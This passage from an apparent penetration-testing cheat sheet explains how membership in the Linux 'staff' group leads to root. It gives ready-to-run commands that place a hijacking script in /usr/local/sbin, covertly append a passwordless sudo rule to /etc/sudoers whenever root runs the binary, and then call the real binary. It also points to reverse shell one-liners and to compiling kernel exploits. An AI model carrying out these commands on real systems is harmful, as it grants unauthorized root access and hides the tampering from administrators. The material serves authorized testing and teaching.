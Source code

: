 ### Linux groups

The membership of the compromised user to one of the groups listed below may,
under certain circumstances, lead to a local elevation of privilege.

###### staff

The `staff` group allows users to add local modifications to the system
`/usr/local` directory without needing root privileges. By default, no user
belongs to this group.

Users belonging to this group can thus add and modify the binaries present in
`/usr/local/bin` and `/usr/local/sbin`. As both directories are by default the
two first entries in the `PATH` for, among others, the `root` user, the
membership to this group can be leveraged to hijack `root` binary use,
resulting in local privilege escalation.

```bash
root@x: whoami && echo $PATH
root
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

To simply hijack a binary call, an executable script with the binary name
can be placed under `/usr/local/sbin` or `/usr/local/bin`. In order to maintain
the system operability and attain a certain level of covertness, the legitimate
binary can be called at the end of the script.

For example, the following commands can be used to hijack the specified binary
and add the compromised user to the `sudoers` whenever root makes use of the
binary:

```bash
# If needed, save the hijacked binary
cp /usr/local/sbin/<BINARY> /usr/local/sbin/.<BINARY>

echo '#!/bin/bash' > /usr/local/sbin/<BINARY>
echo '/bin/echo "<USERNAME>    ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >> /usr/local/sbin/<BINARY>
echo '/<FULL_PATH>/<BINARY> "$@"' >> /usr/local/sbin/<BINARY>
chmod +x /usr/local/sbin/<BINARY>
```

A reverse shell commands can be used as well, refer to the `[General] shells`
note for potential reverse shell one-liners and scripts.

The `pspy` utility can be used to monitor the local process to check if a
recurring task executed under `root` privileges (`UID=0`) could be immediately
exploited.

### Unpatched kernel and services

###### Compilers/languages installed/supported

The supported languages may be leveraged to compile exploit against the
operating system / kernel and services.
